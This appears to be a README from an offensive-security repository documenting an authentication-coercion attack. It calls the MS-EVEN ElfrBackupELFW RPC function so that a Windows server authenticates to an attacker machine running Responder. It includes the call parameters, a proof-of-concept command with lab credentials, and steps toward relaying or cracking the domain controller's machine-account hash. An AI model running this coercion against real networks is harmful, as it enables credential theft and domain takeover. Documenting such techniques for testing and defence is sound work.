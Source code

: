 # MS-EVEN - Remote call to ElfrBackupELFW (opnum 1)

## Summary

+ **Protocol**: [[MS-EVEN]: EventLog Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f)

+ **Protocol UUID**: 82273fdc-e32a-18c3-3f78-827929dc23ea

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\eventlog`

+ **Function name**: [`ElfrBackupELFW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/58e4c3bb-26b3-48a8-8e29-3cc56a23fc2b)

+ **Function operation number**: `1`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\eventlog` and bind to the desired [`MS-EVEN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) protocol (with uuid `82273fdc-e32a-18c3-3f78-827929dc23ea` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-EVEN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\eventlog` This pipe is connected to the protocol [[MS-EVEN]: EventLog Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) and allows to call RPC functions of this protocol. We will then call the remote [`ElfrBackupELFW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/58e4c3bb-26b3-48a8-8e29-3cc56a23fc2b) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
ElfrBackupELFW('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NTSTATUS ElfrBackupELFW(
   [in] IELF_HANDLE LogHandle,
   [in] PRPC_UNICODE_STRING BackupFileName
 );
```

## References

+ Documentation of protocol [MS-EVEN]: EventLog Remoting Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f

+ Documentation of function `ElfrBackupELFW`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/58e4c3bb-26b3-48a8-8e29-3cc56a23fc2b